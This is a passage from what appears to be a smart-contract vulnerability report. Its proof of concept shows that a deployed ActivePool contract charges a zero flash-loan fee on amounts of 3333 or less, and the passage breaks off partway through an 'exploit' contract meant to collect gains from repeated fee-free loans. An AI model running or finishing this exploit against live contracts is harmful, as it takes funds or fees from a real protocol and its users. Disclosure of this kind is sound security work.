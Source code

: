 ## Proof of concept
## Proof of Concept
ActivePool is deployed on mainnet at "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590"

use the following truffle (combine it with Ganache) Poc 

```
truffle console --networkId 5777
```

shows "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590" how it returns 0 as fees for amount of 3333 or under 



```

const Web3 = require('web3');
//save 0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590 abi on test/abi.json

const abi = require('./test/abi.json');
const activePool_contract = "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590";





const activePool = new web3.eth.Contract(abi,activePool_contract);

await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3333).call();
// return 0
await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3332).call();
// return 0
await activePool.methods.flashFee("0xae7ab96520de3a18e5e111b5eaab095312d7fe84",3334).call();
// return 1
```

means that for any number that is/or under 3333 we pay no fees


```

interface IActivePool {

function flashLoan(
        address receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool);

}

interface IERC20 {
   function balanceOf(address) external returns(uint256);
}

contract exploit {
   // the desired amount to gain from the accumulated flash loans
    uint256 reachedAmount;
    function setDesiredAmount(uint256 a) external {
      reachedAmount = a;
     }

    function onFlashLoan(
        address initiator,
```